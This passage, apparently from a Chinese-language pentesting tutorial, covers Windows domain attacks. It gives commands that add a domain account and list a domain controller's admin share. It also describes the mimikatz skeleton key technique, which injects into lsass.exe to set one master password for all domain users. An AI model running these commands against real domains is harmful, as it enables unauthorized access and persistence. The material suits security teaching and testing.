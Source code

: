 [![image-20220517203151531.png](assets/1698894253-380a353115115ea09eba6eeeae430252.png)](https://storage.tttang.com/media/attachment/2022/06/17/cbd95149-830f-4e3a-b612-689b393574a6.png)

验证创建域管账号

```bash
net user test Qwe123... /add /domain
```

或者访问 DC 的共享文件夹

```bash
dir \\cyber.com\c$
```

### [misc 模块中的 skeleton skeleton key（万能钥匙）](#toc_miscskeleton-skeleton-key)

skeleton key 就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注入 所以 **重启会失效**

```bash
//提升权限
mimikatz # privilege::debug
//注入 skeleton key
mimikatz # misc::skeleton
```
